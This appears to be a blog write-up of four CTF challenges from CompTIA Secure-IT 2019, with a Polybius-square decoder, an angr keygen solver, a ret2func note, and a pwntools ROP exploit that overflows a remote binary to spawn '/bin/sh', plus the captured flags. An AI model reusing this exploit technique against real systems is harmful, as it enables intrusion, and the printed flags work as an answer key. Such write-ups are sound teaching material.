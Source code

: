 ```yaml
---
layout : default
---
```


# CompTIA Secure - IT 2019
06-10-2019

## Secure Password (RE)

I analysed the binary and got the following key character mapping. According to this matrix, 11=a 12=b 13=c etc.

```
  1  2  3  4  5
1 a  b  c  d  e
2 f  g  h i/j k
3 l  m  n  o  p
4 q  r  s  t  u
5 v  w  x  y  z
```

```py
flag_chars = "abcdefghijklmnopqrstuvwxyz"
chars_mapping = ['11', '12', '13', '14', '15', '21', '22', '23', '24', '24', '25', '31', '32', '33', '34', '35', '41', '42', '43', '44', '45', '51', '52', '53', '54', '55']

given = "3254431513454215214533134424343324433344431513454215"
tmp = [given[i]+given[i+1] for i in range(0, len(given), 2)]

flag = ""
for i in tmp:
	flag += flag_chars[chars_mapping.index(i)]	

print flag
```

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/comptia/secure_flag.JPG)

FLAG: CTFHUB{mysecurefunctionisntsecure}

## Keygen me (RE)

We need to fulfil some constraints to find a valid key for this software.

```py
import angr
import claripy

p = angr.Project("/bin/true")
state = p.factory.entry_state()
STRLEN = 45
flag_nums = [claripy.BVS("flag_%d" % i, 32) for i in range(STRLEN)]

summm = 0
flag_nums[0] = ord("C")
flag_nums[1] = ord("T")
flag_nums[2] = ord("F")
flag_nums[3] = ord("H")
flag_nums[4] = ord("U")
flag_nums[5] = ord("B")
flag_nums[6] = ord("-")

for i in range(0, 45):
	state.solver.add(flag_nums[i] >= 33,flag_nums[i] <= ord("z"))
	summm += flag_nums[i]

state.solver.add(summm == 1769)


flag = [state.solver.eval(i) for i in flag_nums]

print flag[::]

print ''.join(chr(i) for i in flag)
```

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/comptia/keygen.JPG)

FLAG: CTFHUB{dat_w4s_BaD_l1c3ns3_ch3ck}

## Babybof (PWN)

This was simple ret2func exploit.

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/comptia/babybof_flag.JPG)

FLAG: CTFHUB{dat_w4s_just_w4RmuP}

## SuperROP (PWN)

```py
from pwn import *


#r = process("./superrop")
r = remote('165.22.223.31', 9000)

print r.read()


payload = 'A'*56
payload += p64(0x400596) # pop rdi, ret
payload += p64(0x400658) # /bin/sh string
payload += p64(0x400577) # run_cmd address

r.sendline(payload)
r.interactive()
```

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/comptia/rop_flag.JPG)

FLAG: CTFHUB{da_r0p_g0es_skkkkrrrt}

---